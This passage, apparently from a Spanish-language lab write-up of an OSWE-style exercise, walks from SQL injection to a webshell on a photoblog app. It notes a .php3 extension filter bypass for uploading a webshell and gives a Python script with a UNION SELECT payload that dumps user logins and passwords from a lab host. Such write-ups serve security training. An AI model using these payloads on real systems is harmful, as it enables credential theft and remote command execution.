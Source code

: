 3. Mediante burp se revisan que parámetros son necesarios para llevar a cabo la subida del fichero:

![burp_new](https://github.com/Nyanyi/Awae/blob/main/exercices/sqli_to_shell/images/burp_new.png)

4. El analisis de la función create( en classes/picture) aporta la siguiente información:

   1. El fichero esta ubicado en el directorio "uploads/"
   2. Hay un filtrado de extensiones que no permite utilizar la extensión php pero si, por 				ejemplo, php3
   3. Sabiendo esto, el siguiente paso es subir una webshell

   ![funcion_create](https://github.com/Nyanyi/Awae/blob/main/exercices/sqli_to_shell/images/funcion_create.png)

## Fase 6: Automatización

```python
import requests

target="172.16.113.157"
path_file="/home/nyanyi/awae/preparacion/sqli_to_shell/solucion/console.php3"
command='uname -a'

def sqli(target):
    path_sqli="/cat.php"
    url = "http://" + target + path_sqli
    payload = {'id':"2 UNION SELECT NULL,concat_ws(' : ' ,id,login,password),NULL,NULL FROM photoblog.users"}
    r=requests.get(url, params=payload, verify=False)
    print(r.text)
```